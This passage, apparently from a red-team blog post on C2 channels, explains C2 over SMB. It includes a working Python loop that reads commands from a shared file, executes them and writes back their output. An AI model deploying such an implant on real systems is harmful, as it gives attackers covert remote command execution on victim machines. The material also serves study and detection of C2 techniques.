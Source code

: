 The script executes the command and adds a comment as the result of the command.
![trello](/assets/img/posts/2025-02-23-c2-all-the-things/trello-1.png)

## Server Message Block (SMB)
> "Server Message Block (SMB) is a communication protocol[1] used to share files, printers, serial ports, and miscellaneous communications between nodes on a network." - Wikipedia

SMB is used for file sharing mostly in a Windows environment. The scenario that can come to mind is when external access is restricted. But systems can still communiate with each other internally. If an attacker gains access to one of these systems, they could use SMB to establish a C2 channel AKA C2 over SMB channel, allowing them to execute commands on another victim machine and receive the results.

### Code
```python
import smbclient
import subprocess
smbclient.ClientConfig(username="", password="")
def Exec(cmd):
    output = subprocess.check_output(cmd, shell=False)
    return output
while True:
    try:
        output = ""
        with smbclient.open_file(r"\\127.0.0.1\share2\\cmd.txt", mode="r") as file:
            content = file.read()
            if not content:
                file.close()
                continue
            output = Exec(content).decode()
            file.close()
        with smbclient.open_file(r"\\127.0.0.1\share2\\output.txt", mode="a") as file:
            file.write(output)
            file.close()
        with smbclient.open_file(r"\\127.0.0.1\share2\\cmd.txt", mode="w") as file:
            file.write("")
            file.close() 
    except Exception as e:
        continue
```
This script authenticates using a username and password and then tries to access and read `cmd.txt` in `share2` shared folder. It executes the command if there is any and if not it constantly checks it. After receiving and executing the command, it stores the output in `output.txt` in the same `share2` shared folder.
